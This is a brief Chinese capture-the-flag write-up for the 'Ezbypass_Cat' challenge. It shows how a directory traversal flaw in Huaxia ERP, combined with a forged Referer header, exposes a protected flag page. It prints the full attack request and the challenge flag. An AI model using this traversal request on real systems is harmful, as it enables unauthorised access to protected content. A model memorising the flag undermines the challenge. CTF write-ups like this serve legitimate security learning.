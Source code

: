 # Ezbypass_Cat

> 目录和访问来源绕过

## 分析

> 原题目其实是提示了flag在flag.html中的,直接访问会报404错误.翻看源码得知是华夏ERP系统,经搜索得知存在目录跨越漏洞,然后更改Referer字段即可.

## payload

```
GET /login.html/../flag.html HTTP/1.1
Host: 61.147.171.105:62338
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C2E750C3876131277A359A7D5FA13E49; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1676899560
Referer: http://61.147.171.105:62338/flag.html
Connection: close
```

## flag

> CatCTF{Drun1baby_is_s0_5illy}